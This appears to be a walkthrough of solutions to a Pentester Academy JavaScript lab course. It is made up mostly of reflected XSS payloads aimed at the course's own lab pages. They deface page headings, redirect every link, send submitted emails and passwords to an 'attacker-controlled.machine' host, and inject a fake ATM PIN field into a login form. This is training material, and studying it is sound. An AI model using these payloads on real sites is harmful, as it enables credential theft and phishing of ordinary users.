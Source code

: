 
### Target

    https://www.pentesteracademy.com/course?id=11

### Prereq

Include this in your `.bashrc`:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command/10660730#10660730

### Task 1

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/1

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/1?url=<payload>

Payloads generation:
$ rawurlencode '<script>document.getElementsByTagName("h2")[2].innerHTML = "Modified you"</script>'
$ rawurlencode '<script>document.getElementsByTagName("h1")[0].innerHTML = "Found you"</script>'
```

### Task 2

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/2

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/2?url=<payload>

Payload generation:
$ rawurlencode '<script>for (i=0;i<document.getElementsByTagName("a").length;++i) { document.getElementsByTagName("a")[i].href = "http://PentesterAcademy.com/topics"; }</script>'
```

### Task 3

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/3

**Solution**

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/3?email=abc@xyz.com&password=111&url=<payload>

Preparing the payload (adding rouge `<img>` tag):

```
$ cat > JSforPentesters-3.js <<'EOF'
function intercept() {
    new Image().src = "https://attacker-controlled.machine/3?email=" + document.forms[0].elements[0].value + "&password=" + document.forms[0].elements[1].value;
    return false;
}
document.forms[0].onsubmit = intercept;
EOF

$ rawurlencode "<script>$(uglifyjs JSforPentesters-3.js)</script>"
```

Alternative payload (triggering `xhr` request - request will cause CORS abuse in browser but it will be sent, only the response will be blocked but the browser):

```
$ cat > JSforPentesters-3-2.js <<'EOF'
function intercept() {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "https://attacker-controlled.machine/3?email=" + document.forms[0].elements[0].value + "&password=" + document.forms[0].elements[1].value);
    xhr.send();
    return false;
}
document.forms[0].onsubmit = intercept;
EOF

$ rawurlencode "<script>$(uglifyjs JSforPentesters-3-2.js)</script>"
```

### Task 4

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/4

**Solution**

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/4?email=abc@xyz.com&password=111&url=<payload>

Payload generation:

```
$ cat > JSforPentesters-4.js <<'EOF'
pin = document.createElement("input");
pin.setAttribute("type", "text");
pin.setAttribute("value", "");
pin.setAttribute("class", "input-block-level");
pin.setAttribute("placeholder", "ATM Pin");
pin.setAttribute("name", "pin"); 
document.forms[0].insertBefore(pin, document.forms[0].elements[1]);
EOF

$ rawurlencode "<script>$(uglifyjs JSforPentesters-4.js)</script>"
```
